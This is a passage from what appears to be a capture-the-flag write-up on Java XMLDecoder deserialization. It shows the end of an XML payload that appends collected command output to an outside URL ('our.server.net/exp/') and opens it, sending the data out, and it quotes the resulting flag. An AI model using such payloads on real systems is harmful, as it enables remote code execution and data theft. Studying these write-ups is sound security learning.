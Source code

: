```xml
                </void>
            </void>
            <void method="append">
                <string>http://our.server.net/exp/</string>
            </void>
            <void method="append">
                <object idref="collected"/>
            </void>
        </object>
    </void>

    <object class="java.net.URL">
        <object idref="command"/>
        <void method="openStream"/>
    </object>
</java>
```

With this we could use `find` command to look for `flag` file and then print it using `cat` and get `flag{ser1l1azati0n_in_CTF_is_fUN}`
